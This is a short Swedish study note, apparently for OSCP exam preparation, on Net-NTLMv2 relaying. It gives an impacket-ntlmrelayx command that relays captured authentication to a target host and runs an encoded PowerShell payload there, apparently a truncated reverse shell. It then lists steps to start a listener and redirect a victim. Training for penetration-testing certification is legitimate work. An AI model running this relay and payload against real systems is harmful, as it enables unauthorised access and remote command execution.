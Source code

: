 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/h. Password Attacks/8. Net-NTLMv2 Relaying/"}
---
```


- I stället för att styra en autentisiering till en egen uppsatt SMB-server, dirigeras den till en annan maskin, och om användaren har tillgång dit kommer den göra som vi säger när den connectar.
- Görs med 'ntlmrelayx'

-------------

### Net-NTLMv2 Relaying:
1. Sätt upp Impacket-server på Kali:
```bash
sudo impacket-ntlmrelayx --no-http-server -smb2support -t <target-ip> -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```
2. Sätt upp lyssnare.
3. Dirigera användare
4. Win!